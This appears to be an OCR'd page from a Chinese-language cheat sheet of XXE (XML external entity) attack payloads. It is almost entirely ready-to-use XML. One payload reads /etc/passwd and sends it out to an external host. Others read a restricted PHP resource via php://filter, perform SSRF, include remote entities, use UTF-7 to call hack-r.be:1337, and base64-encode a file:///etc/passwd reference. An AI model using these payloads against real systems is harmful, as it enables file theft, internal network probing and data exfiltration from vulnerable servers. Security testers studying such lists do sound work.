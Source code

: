 ##### XXE：盲本地文件包含示例

(当第一种情况不返回任何内容时.）

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

##### XXE：访问控制绕过

(加载受限资源 - PHP 示例）

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

##### XXE:SSRF

（服务器端请求伪造）示例

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

##### XXE：（远程攻击 - 通过外部 Xml 包含）示例

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

##### XXE：UTF-7 示例

```xml-dtd
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

##### XXE：Base64 编码

```xml-dtd
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
